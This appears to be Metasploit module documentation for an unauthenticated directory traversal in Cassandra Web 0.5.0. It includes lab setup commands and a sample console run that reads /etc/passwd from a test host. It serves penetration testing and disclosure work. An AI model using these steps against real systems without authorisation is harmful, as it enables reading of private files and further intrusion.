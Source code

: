 ## Vulnerable Application
[Cassandra Web](https://rubygems.org/gems/cassandra-web) is an interface for Apache Cassandra using Ruby, Event-machine, AngularJS,
Server-Sent-Events and DataStaxRuby driver for Apache Cassandra.

This module has been tested successfully on Cassandra Web versions:
* cassandra-web-0.5.0 on Debian 10.11 (buster) with ruby 2.5.5p157 and Apache Cassandra 3.11.13

### Description

This module exploits an unauthenticated directory traversal vulnerability in Cassandra Web
'Cassandra Web' version 0.5.0 and earlier, allowing arbitrary file read with the web server privileges.
This vulnerability occured due to the disabled Rack::Protection module.

This web service listens on TCP port 3000 by default on all network interface.

Source and Installers:
* [Source Code Repository](https://github.com/avalanche123/cassandra-web)
* [Installers](https://rubygems.org/gems/cassandra-web)

Ruby installation:
```
apt install ruby-full -y
```

Gem installation:
```
gem install cassandra-web
```

Apache Cassandra Installation:
```
cat << EOF > /etc/apt/sources.list.d/cassandra.list
deb https://www.apache.org/dist/cassandra/debian 311x main
EOF
cat << EOF > /etc/apt/sources.list.d/adoptopenjdk.list
deb https://adoptopenjdk.jfrog.io/adoptopenjdk/deb/ buster main
EOF
wget -q -O - https://www.apache.org/dist/cassandra/KEYS | apt-key add -
wget -qO - https://adoptopenjdk.jfrog.io/adoptopenjdk/api/gpg/key/public | apt-key add -
apt update && apt install adoptopenjdk-8-hotspot cassandra -y
```

Run Cassandra Web:
```
cassandra-web
```

## Verification Steps
1. Do: `use auxiliary/scanner/http/cassandra_web_file_read.rb`
2. Do: `set RHOSTS [ips]`
3. Do: `run`

## Options

## Scenarios
### Cassandra Web 0.5.0 Linux Debian 10.11 (Ruby 2.5.5p157 and Apache Cassandra 3.11.13)
```
msf6 > use auxiliary/scanner/http/cassandra_web_file_read
msf6 auxiliary(scanner/http/cassandra_web_file_read) > set RHOSTS 192.168.56.1
RHOSTS => 192.168.56.1
msf6 auxiliary(scanner/http/cassandra_web_file_read) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cassandra Web Detected
[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ntp:x:107:115::/nonexistent:/usr/sbin/nologin
cassandra:x:108:116:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin


[+] File saved in: /home/git/.msf4/loot/20220802185716_default_192.168.56.1_cassandra.web.tr_160962.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
